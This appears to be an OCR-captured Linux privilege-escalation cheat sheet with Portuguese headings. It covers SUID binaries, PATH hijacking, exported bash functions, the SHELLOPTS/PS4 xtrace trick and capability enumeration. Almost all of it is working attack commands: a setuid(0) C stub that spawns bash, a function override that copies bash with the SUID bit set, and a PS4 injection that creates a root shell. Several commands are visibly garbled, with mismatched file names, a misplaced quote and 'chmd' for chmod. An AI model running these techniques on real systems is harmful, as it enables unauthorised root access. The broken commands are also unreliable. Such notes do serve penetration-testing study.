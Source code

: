 ```
/usr/local/bin/suid-env
```

```
$ env
$ echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;} > /tmp/service.c'
$ gcc /tmp/system.c -o /tmp/service
$ export PATH=/tmp:$PATH
$ /usr/local/bin/suid-env
```

###### OU (PARA BASH < 4.2)  

```
$ find / -type f -perm 04000 -ls 2>/dev/null
```

```
/usr/local/bin/suid-env2
```

```
$ strings /usr/local/bin/suid-env2
```

```
/usr/sbin/service apache2 start
```

```
$ function /usr/sbin/service() {cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
$ export -f /usr/sbin/service
$ /usr/local/bin/suid-env2
```

###### OU (PARA BASH < 4.4)  
```
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/sh /tmp/miow && chmd +xs /tmp/miow)' /usr/local/bin/suid-env2
$ /tmp/miow -p
```

#### Groups  
```
$ find / -group GROUP_NAME -type f 2>/dev/null
```

#### Capabilities  
###### Links:  
> https://mn3m.info/posts/suid-vs-capabilities/  
> https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099  
> https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/  
```
$ getcap -r / 2>/dev/null
```

```
/usr/bin/python2.6 = cap_setuid+ep
```
